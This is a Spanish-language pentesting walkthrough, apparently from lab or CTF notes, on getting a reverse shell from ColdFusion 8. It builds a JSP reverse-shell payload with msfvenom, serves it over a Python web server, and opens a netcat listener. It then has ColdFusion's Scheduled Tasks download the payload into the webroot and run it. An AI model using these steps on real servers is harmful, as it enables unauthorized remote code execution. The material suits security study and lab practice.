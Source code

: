 * Crear un payload con msfvenom para enviarnos una reverse shell por netcat a nuestro equipo

```shell
> msfvenom -l payloads | grep jsp
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=<tu-ip> LPORT=<tu-puerto> -o <nombre>.jsp
Payload size: 1496 bytes
Saved as: rs.jsp
> ls
 rs.jsp
```

* Compartimos un servidor web con python

```shell
> python3 -m http.server 80
```

* Nos ponemos a la escucha con netcat para recibirla reverse shell

```shell
> rlwrap nc -lvnp <tu-puerto>
listening on [any] 4444 ...
```

* En el apartado de Debugging & Logging > Scheduled Tasks podemos crear tareas&#x20;

Crear una tarea donde pondremos nuestro servidor que compartimos con python y el nombre del **.jsp** para guardar-lo en la ruta `C:\ColdFusion8\wwwroot\CFIDE` y le damos a submit.

<figure><img src="../../../../.gitbook/assets/web-shell-task.PNG" alt=""><figcaption></figcaption></figure>

* Le damos al botón de run task

<figure><img src="../../../../.gitbook/assets/run-task.PNG" alt=""><figcaption></figcaption></figure>
